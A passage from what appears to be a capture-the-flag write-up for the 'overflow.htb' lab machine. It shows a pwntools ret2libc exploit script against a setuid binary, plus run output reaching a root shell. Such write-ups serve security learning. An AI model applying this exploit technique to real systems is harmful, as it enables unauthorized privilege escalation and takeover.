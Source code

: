 The final script looks like this. It starts a ssh session to the target with out previously generated private key. In that session it starts the target binary `file_encrypt`. We then send the pin followed by the payload after recieving again. The payload set's the user id to 0 first and then executes `/bin/sh`

`exploit.py`
```py
from pwn import *

session = ssh(user='tester',host='overflow.htb',keyfile='./tester')
io = session.process('/opt/file_encrypt/file_encrypt')

libc = 0xf7de9000
offset = 44
pin = b'-202976456'

system = p32(libc + 0x0003d2e0)
setuid = p32(libc + 0x000bff10)
popedi = p32(libc + 0x0001869b)
exit   = p32(libc + 0x000304b0)
binsh  = p32(libc + 0x0017e0af)

payload  = b''
payload += b'A' * offset
payload += system
payload += setuid
payload += popedi
payload += p32(0x0)
payload += system
payload += exit
payload += binsh


io.recvrepeat(0.5)
io.sendline(pin)
io.recvrepeat(0.5)
io.sendline(payload)
io.interactive()
```

Running the exploit we get a connection as root and are able to add the root flag to our collection.

```
$ python exploit.py
[+] Connecting to overflow.htb on port 22: Done
[*] tester@overflow.htb:
    Distro    Ubuntu 18.04
    OS:       linux
    Arch:     amd64
    Version:  4.15.0
    ASLR:     Disabled
[+] Starting remote process bytearray(b'/opt/file_encrypt/file_encrypt') on overflow.htb: pid 69264
[*] Switching to interactive mode
Thanks for checking. You can give your feedback for improvements at developer@overflow.htb
sh: 1: _\xc3\xc3f\x90\xe8$\xec\x11 not found
# $ id
uid=0(root) gid=1000(tester) groups=1000(tester)
# $ wc -c /root/root.txt
33 /root/root.txt
```
